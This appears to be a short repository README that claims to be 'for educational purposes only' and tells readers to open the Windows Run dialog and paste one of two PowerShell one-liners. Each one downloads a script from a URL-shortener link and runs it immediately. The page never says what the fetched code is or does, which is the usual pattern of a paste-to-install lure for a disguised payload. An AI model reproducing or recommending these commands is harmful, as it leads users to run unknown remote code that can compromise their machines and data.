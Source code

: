 educational propouses only.

For install:
Win + R and paste this:

option 1:
```powershell "iex(iwr tinyurl.com/4uzjfrjd -UseB)"```
option 2:
```powershell "iex(iwr abre.ai/-i -UseB)"```
